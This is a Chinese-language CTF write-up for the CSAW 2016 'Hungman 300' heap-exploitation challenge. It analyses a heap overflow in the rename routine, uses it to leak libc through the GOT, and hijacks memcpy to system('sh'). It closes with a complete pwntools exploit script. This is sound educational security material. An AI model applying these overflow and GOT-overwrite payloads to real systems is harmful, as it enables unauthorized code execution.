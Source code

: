 Title: [CSAW CTF 2016] Hungman 300
Date: 2016-09-19 23:33
Tags: CSAW, CTF, pwn, Heap
Author: Naetw
Summary: A write-up for CSAW CTF 2016 Hungman 300

## Description

> 第一次貢獻大分數給 BambooFox，雖然這次比賽比較簡單，但還是很感動QQ

## Analyzing

> 64 bit ELF, NX, Partial RELRO, Stack Canary, no PIE

程式一開始會要求輸入名字，而他會 `malloc` 名字長度的記憶體來存放使用者輸入的名字，接著會 `malloc` 一塊 0x80 大小的 heap，以下稱之為 `key_heap`，第一格**高位** 4 bytes 會存放 length of name，第二格則儲存著 name's heap 的位址。

name's heap & key_heap 的 memory layout 如下：

```python
	low     ->     high
	+ ------------- +  name's heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|      name     |  32 bytes
	|               |		|
	|               |		|
	|               |		v
	+ ------------- +  key_heap chunk head
	| previous size |
	| ------------- |
	|      size     |
	| ------------- |
	|       |length |
	| ------------- |
	|  name's heap  |
	+ ------------- +
```
輸入完名字之後，回到了 `main`，接著便進入玩遊戲的 function 以下稱為 game。

遊戲是猜小寫英文字母，然後如果分數超過 64 分可以重新改名字，而改寫名字時可以在 heap 上進行 overflow。

因為是猜小寫字母，而照他的規則一開始輸入名字的長度會決定可以猜的次數，因此一開始輸入名字時就給他來個 `'A'*26`，這樣基本上從 a 猜到 z 猜到一半就能夠破分數紀錄而改寫名字。

改寫名字的 code 重點如下：

```c
s = malloc(248);
memset(s, 0, 248);
len_of_new_name = read(0, s, 248);
*(_DWORD*)(a1 + 4) = len_of_new_name; // 把剛剛 key_heap 存 name size 的地方改成 new name 的 size
memcpy(*(void**)(a1 + 8), s, len_of_new_name);
free(s);
```
	
由上面的 code 可以發現，他最長可以讀 248 bytes，而我們一開始輸入的名字長度只有 26，因此 new name 可以好好的構造來 **leak information**。

因為離開 game 後會把新名字 dump 出來，而程式找 `name_heap` 的方式是靠 `key_heap` 的第二格來找，因此在剛剛的 overflow 時我們將原本儲存著 name's heap address 的那格改成 GOT entry，這樣一來，在 dump new name 的時候便可以 **leak libc information** 接著利用主辦方給的 libc 就可以找到 `libc base`。

這邊 overflow 的 payload 如下：

```python
payload = 'A'*32 # padding
payload += p64(0) # previous size
payload += p64(0x91) # size
payload += p32(0x20) # score
payload += p32(0x1b) # len_of_new_name
payload += p64(libc_start_main) # __libc_start_main GOT entry
```

size 那邊沒必要寫壞就寫回原來的值，下一格的**低位** 4 bytes 會是 這次刷新的分數(下面提供相關 code)，為了加速下次玩遊戲時間，把分數改低一點，然後因為猜個 26 次就很夠了所以**高位** 4 bytes 寫回原來的長度就好了，接下來再玩一次。

```c
score = *(_DWARD*)a1;
```

第二次改名時就不會改到 name's heap，會改到剛剛 overwrite 的 `__libc_start_main` GOT entry 上。

GOT table 的 libc function order:

```
__libc_start_main@got.plt
__gmon_start__@got.plt
memcpy@got.plt
malloc@got.plt
setvbuf@got.plt
```

因為在改名字時有一段 code 是 `memcpy(*(void**)(a1+8), s, len_of_new_name)`，所以把 `memcpy` 的 GOT hijack 掉改成 `system`，要注意的點是改名字時會用到 `malloc` 而 `read` 會在結尾補 `\x00` 所以乾脆直接連 `malloc` 也一起蓋上正確的 `libc address` 確保他不會壞，而 `malloc` 的下一個 function 後面用不到就不用管他。這邊 payload 開頭我就先送 `'sh\x00'` 上去這樣 `memcpy` 的一開始就可以直接 `system('sh')`

第二次的 payload:

```python
payload = "sh\x00".ljust(8)
payload += 'A'*8
payload += p64(system)
payload += p64(malloc)
```

之後再玩一次遊戲，然後改名字的時候隨便輸入就可以拿到 shell

## Final Exploit:

```python
#!/usr/bin/env python

from pwn import *

#context.log_level = 'DEBUG'
#r = process('./hungman-patch')
r = remote('172.17.0.2', 4000)
#r = remote('pwn.chal.csaw.io', 8003)

#libc = ELF('bc.so.6')
#libc =ELF('/home/naetw/binaryservice/src/glibc-2.19/32/lib/libc.so.6')
libc =ELF('/home/naetw/binaryservice/src/glibc-2.19/64/lib/libc.so.6')

libc_start_got = 0x602068

r.recv()
r.sendline('A'*26)

def game(payload):
    for i in xrange(26):
        r.sendline(chr(97+i))
        x = r.recvline()
        if x[0:4] == "High":
            r.recv(timeout=3)
            r.sendline('y')
            sleep(1)
            r.sendline(payload)
            return
        if x[0:4] == 'Defa':
            r.recvuntil('Continue? ')
            r.sendline('y')
            i = 0
            r.recvline()

# leak libc function address
payload = 'A'*32
payload += p64(0) + p64(0x91) + p32(0x20) + p32(0x1b) + p64(libc_start_got)
r.recvuntil('__________________________\n')
game(payload)
r.recvuntil('player: ')
x = r.recvuntil(' score:')
r.recv()
base = u64(x[0:6] + '\x00' * 2) - libc.symbols['__libc_start_main']
system = base + libc.symbols['system']
info('libc base : {}'.format(hex(base)))
info('system : {}'.format(hex(system)))

# hijack memcpy() and open shell
r.sendline('y')
r.recvuntil('__________________________\n')
payload = 'sh\x00'.ljust(8) + 'A'*8 + p64(system) + p64(base + libc.symbols['malloc']) 
game(payload)
r.recvuntil('Continue? ')
r.sendline('y')
r.recvline()
payload = 'whatever'
game(payload)

r.interactive()
```

